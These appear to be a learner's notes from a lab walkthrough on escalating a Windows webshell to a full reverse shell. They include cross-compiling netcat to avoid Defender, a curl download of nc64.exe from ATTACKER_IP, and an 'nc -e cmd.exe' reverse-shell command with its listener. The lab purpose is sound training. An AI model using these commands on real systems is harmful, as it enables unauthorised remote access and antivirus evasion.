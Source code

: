 Our webshell is all well and good, but let's go for a full reverse shell!

Unfortunately, we have a problem. Unlike in Linux where there are usually many ways to obtain a reverse shell, the options in Windows are a lot fewer in number as Windows tends not to have many scripting languages installed by default.

Realistically we have several options here:

- Powershell tends to be the go-to for Windows reverse shells. Unfortunately Defender knows exactly what PowerShell reverse shells look like, so we'd have to do some serious obfuscation to get this to work.
- We could try to get a PHP reverse shell as we know the target has a PHP interpreter installed. Windows PHP reverse shells tend to be iffy though, and again, may trigger Defender.
- We could generate an executable reverse shell using msfvenom, then upload and activate it using the webshell. Again, msfvenom shells tend to be very distinctive. We could use the [Veil Framework](https://www.veil-framework.com/) to give us a meterpreter shell executable that might bypass Defender, but let's try to keep this manual for the time. Equally, [shellter](https://www.shellterproject.com/) (though old) might give us what we need. There are easier options though.
- We could upload netcat. This is the quick and easy option.

The only problem with uploading netcat is that there are hundreds of different variants -- the version of netcat for Windows that comes with Kali is known to Defender, so we're going to need a different version. Fortunately there are many floating around! Let's use one from github, [here](https://github.com/int0x33/nc.exe/).

## Clone the repository  

`git clone https://github.com/int0x33/nc.exe/`  

This repository already contains pre-compiled netcat binaries for both 32 and 64 bit systems, however, this is an ideal time to talk about cross-compilation techniques. If you'd prefer to just use the default binaries then just skip to the last section of this task and use the `nc64.exe` binary from the repository.

## Cross compilation

Cross compilation is an essential skill -- although in many ways it's preferable to avoid it.

First up: what is cross compilation? The idea is to compile source code into a working program to run on a different platform. In other words, cross compilation would allow us to compile a program for a different Linux kernel, a Windows program on Kali (as we're doing here), or even software for an embedded device or phone.

Whilst cross-compilation is a very useful skill to have, it's often difficult to get completely correct. Ideally we should always try to compile our code in an environment as close to the target environment as possible. For example, if an exploit or program is designed to work on CentOS 7.2, we should try to compile it in a CentOS 7.2 VM if possible. Equally, it's essential that we get the same arch as that of the target -- a 64 bit program won't work very well on a 32 bit target!

Sometimes it's easiest to just cross-compile, however. Generally speaking we cross compile x64 Windows programs on Kali using the `mingw-w64` package (for x64 systems). This is not installed on Kali by default, however it is available in the Kali apt repositories:  
`sudo apt install mingw-w64`  

This is a big package, but once it's installed we can start re-compiling netcat.

Much like we use `gcc` to compile binaries on Linux, we can use the `mingw` compilers to compile Windows binaries. These tend to have very descriptive (read: long) names, but the one that's of particular importance to us here is `x86_64-w64-mingw32-gcc`. This specifies that we want to compile a 64bit binary.  

Inside the nc.exe repository we downloaded, delete or move the two pre-compiled netcat binaries. The repository provides a makefile which we can use (with some small alterations) to compile the binary. Open up the `Makefile` with your favourite text editor. The first two lines specify which compiler to use:

![[499921a44689.webp]]

Neither of these are quite what we're looking for, so comment out the first line and add another line underneath:  
`CC=x86_64-w64-mingw32-gcc`

![[d71f7f2fcb0e.webp]]

Now when we run `make` to build the binary, the correct compiler will be used to generate a x64 Windows executable. Note that there will be a lot of warnings generated by the compiler (these have been redirected to `/dev/null` in the following screenshot for readability, however, you do not need to do this). These are nothing to worry about; the compilation should still be successful.

![[b29a99fd33fd.webp]]

## Uploading nc.exe to the target

With a copy of netcat available, we now need to get it up to the target.

Start a Python webserver on your #Attacking_Machine (as demonstrated numerous times previously):  
`sudo python3 -m http.server 80   `

Despite it often being much harder to upload binaries to Windows than it is to upload to Linux, we do have a few options here.

- Powershell _might_ work, but with AMSI in play it's a risk.
- We could use the file upload point that we originally exploited to upload an unrestricted PHP file uploader (in the same way that we uploaded the original webshell, although this would be a bit of a pain with embedding the uploader in an image).
- We could look for other command line tools installed on the target such as `curl.exe` or `certutil.exe`, both of which might allow for a file upload.

Try to execute both of this in the webshell -- both should work.

> [!Question]
>What output do you get when running the command: `certutil.exe`?
>`CertUtil: -dump command completed successfully.`


## Certutil

Certutil is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

Instead we'll stick with trusty old cURL.

## cURL

From #Webshell  use cURL to upload your new copy of netcat to the target:

`curl http://ATTACKER_IP/nc.exe/nc64.exe -o c:\\windows\\temp\\nc-USERNAME.exe   `

> [!Note]
>Note the double backslashes used here. This is purely due to how the webshell handles backslashes. We need to escape the backslashes so that they are passed in as a part of the command, as opposed to escaping the letters immediately after them.

We now have everything we need to get a reverse shell back from this target.

Set up a netcat listener on your #Attacking_Machine 
`sudo nc -lvnp 443`

In your #webshell, use the following command:

`powershell.exe c:\\windows\\temp\\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe   `

e.g.  
`powershell.exe c:\\windows\\temp\\nc-MuirlandOracle.exe 10.50.73.2 443 -e cmd.exe   `

This should result in a reverse shell from the target!

![[ac7e2a438cd5.webp]]

